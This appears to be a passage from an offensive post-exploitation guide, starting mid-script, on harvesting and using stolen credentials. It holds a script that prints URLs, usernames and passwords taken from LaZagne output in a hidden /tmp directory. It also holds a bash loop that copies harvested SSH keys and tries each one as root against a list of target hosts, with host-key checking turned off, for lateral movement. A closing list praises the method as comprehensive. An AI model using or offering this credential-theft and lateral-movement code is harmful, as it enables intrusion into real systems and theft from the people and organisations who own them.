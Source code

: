 ```bash

def parse_lazagne_json(filename):
    with open(filename, 'r') as f:
        data = json.load(f)
    
    print(f"\n{'='*60}")
    print(f"Credentials from {filename}")
    print(f"{'='*60}\n")
    
    for software_category in data:
        for software_name, accounts in software_category.items():
            if accounts:
                print(f"\n[+] {software_name}:")
                for account in accounts:
                    print(f"    - URL: {account.get('url', 'N/A')}")
                    print(f"    - Username: {account.get('login', 'N/A')}")
                    print(f"    - Password: {account.get('password', 'N/A')}")
                    print(f"    {'-'*50}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: parse_creds.py <lazagne_json_file>")
        sys.exit(1)
    
    parse_lazagne_json(sys.argv[1])
EOF

chmod +x parse_creds.py
./parse_creds.py /tmp/.harvested_20230822120000/lazagne_root.json > /tmp/credentials_summary.txt
```

4. **Leverage the discovered credentials for lateral movement**:

```bash
# Extract SSH keys for lateral movement
cp /tmp/.harvested_20230822120000/ssh_keys/* ~/.ssh/
chmod 600 ~/.ssh/id_*

# Test SSH access to other systems
for key in ~/.ssh/id_*; do
    for host in $(cat target_hosts.txt); do
        echo "Trying $key on $host..."
        ssh -i $key -o StrictHostKeyChecking=no -o ConnectTimeout=5 root@$host hostname 2>/dev/null
    done
done
```

This comprehensive approach is effective because:
- It systematically harvests credentials from multiple sources
- It attempts to escalate privileges to access more protected credentials
- It collects raw profile data for offline analysis with more advanced tools
- It preserves and organizes the data for effective post-exploitation activities
